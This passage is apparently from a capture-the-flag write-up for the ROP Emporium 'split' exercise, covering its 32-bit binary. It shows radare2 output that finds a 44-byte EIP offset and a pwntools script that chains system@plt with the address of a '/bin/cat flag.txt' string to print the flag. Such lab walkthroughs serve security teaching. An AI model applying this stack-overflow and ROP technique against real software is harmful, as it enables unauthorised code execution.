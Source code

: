 which gets us our flag.

## x86

Lets do the same for the 32 bit version. There are two ways we can find the offset.

```bash
$ r2 -de dbg.profile=profile.rr2 split32
Process with PID 3819 started...
= attach 3819 3819
bin.baddr 0x08048000
Using 0x8048000
asm.bits 32
glibc.fc_offset = 0x00148
[0xf7f470b0]> dc
split by ROP Emporium
x86

Contriving a reason to ask user for data...
> Thank you!
[+] SIGNAL 11 errno=0 addr=0x41415041 code=1 si_pid=1094799425 ret=0
[0x41415041]> pxq 4@eip
0x41415041  0x00000000ffffffff                       ....
[0x41415041]> wopO 0x41415041
44
# or
[0x41415041]> wopO `dr eip`
44
```

So our $eip offset is 44 bytes. Both methods work for 32 bit here because the input seems to overflow into $eip whereas for the 64 bit binary it doesn't flow into the $rip but straight into the $rsp which seems to mess something up.

We can find the system@plt address and /bin/cat flag.txt address using the same method for the 64 bit version. The system@plt is at 0x80483e0 and the /bin/cat flag.txt string is at 0x0804a030.

Also given it is a 32 bit binary, we pass the function argument onto the stack rather than into a register which reduces our ROP chain length.

```py
#!/usr/bin/env python3

from pwn import *

binary = ELF("./split32")
context.binary = binary
rop = ROP(binary)

p = process(binary.path)
p.recvuntil(b">")

# addresses/data
OFFSET = 44
PADDING = p32(0)
SYSTEM_CALL_ADDR = p32(0x80483e0)
BIN_CAT_FLAG_ADDR = p32(0x0804a030)

rop.raw(b"A"*OFFSET)                # junk: EIP offset
rop.raw(SYSTEM_CALL_ADDR)           # system@plt: objdump -d split | grep system@plt 
rop.raw(PADDING)
rop.raw(BIN_CAT_FLAG_ADDR)          # cat addr: rabin2 -z split

# chain: junk + system@plt + BBBB + cat address
p.sendline(rop.chain())
print(p.recvall().decode("utf-8").split("\n")[1])
```